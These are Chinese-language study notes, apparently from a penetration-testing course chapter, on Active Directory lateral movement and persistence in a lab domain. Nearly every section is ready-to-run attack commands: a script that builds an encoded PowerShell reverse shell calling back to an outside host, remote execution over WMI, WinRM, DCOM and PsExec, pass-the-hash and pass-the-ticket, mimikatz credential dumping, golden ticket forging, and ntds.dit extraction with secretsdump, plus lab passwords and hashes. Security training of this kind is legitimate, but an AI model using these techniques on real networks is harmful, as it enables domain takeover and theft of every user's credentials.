 本篇对应教材第23章，主要内容“AD横向移动技术”、“AD持久化”，记录使用工具和命令

## 23.1 AD横向移动技术

### 23.1.1 WMI和WinRM

WMI：Windows管理接口（使用135端口和19152-65535之前的高端口），创建计算器进程

```armasm
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

使用powershell

```armasm
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

要获得反弹shell，可以使用powershell反弹，先做编码

```armasm
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

注意编码utf16

```armasm
python3 encode.py
获得powershell的反弹shell代码
```

```armasm
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

WinRM：远程主机管理（使用5986https和5985http）

```armasm
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"

winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

powershell

```armasm
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential

成功返回
session ID 1

进入session可以执行命令
Enter-PSSession 1
```

### 23.1.2 PsExec

条件

```armasm
用户是本地administrators组
开启ADMIN$
开启文件和打印共享
```

```armasm
./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

### 23.1.3 hash传递（pth）

条件

```armasm
smb的445端口可访问
开启ADMIN$
开启文件和打印共享
```

```armasm
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```

### 23.1.4 hash跨越

获得一台机器的用户（本地管理员system权限）后，有与管理员登录的话，使用mimikatz获得其他用户hash（域管理员），就可以使用hash跨越

```armasm
privilege::debug
sekurlsa::logonpasswords
```

创建域管权限的进程

```armasm
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

查看票据

```armasm
klist
没有票据
net use \\files04
klist
有票据了
执行命令
.\PsExec.exe \\files04 cmd
```

### 23.1.5 票据传递

场景：当前用户没有权限访问某共享文件夹，使用mimikatz获得另一个具有权限的票据TGS，然后导入就可以访问了

```armasm
whoami
ls \\web04\backup
当前用户没权限访问

privilege::debug
sekurlsa::tickets /export
dir *.kirbi
找到另一个账号的票据注入到当前用户session
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

klist
查看已经有了dave的票据
ls \\web04\backup
可以访问了
```

### 23.1.6 DCOM（分布式组件对象模型）

使用135端口

powershell

```armasm
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
tasklist | findstr "calc"
```

远程运行计算器，换成反弹shell

```armasm
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

## 23.2 AD持久化

### 23.2.1 黄金票据

使用krbtgt的hash伪造票据

```armasm
PsExec64.exe \\DC1 cmd.exe
当前用户没有权限访问DC1

到DC1上获得krbtgt的hash
privilege::debug
lsadump::lsa /patch
获得域SID和krbtgt的hash
```

在任意机器上先删除错误票据，为指定用户创建黄金票据，开启指定用户的cmd

```armasm
kerberos::purge
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
misc::cmd
```

然后访问DC1，需要使用主机名，使用IP会无法访问

```armasm
PsExec.exe \\dc1 cmd.exe
whoami /groups
当前用户属于域管组了
```

### 23.2.2 Shadow副本

使用域管备份

```armasm
vshadow.exe -nw -p  C:

- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

拷贝文件到指定目录

```armasm
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

注册表获取system

```armasm
reg.exe save hklm\system c:\system.bak
```

获得上面两个文件后可以获得所有用户hash

```armasm
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
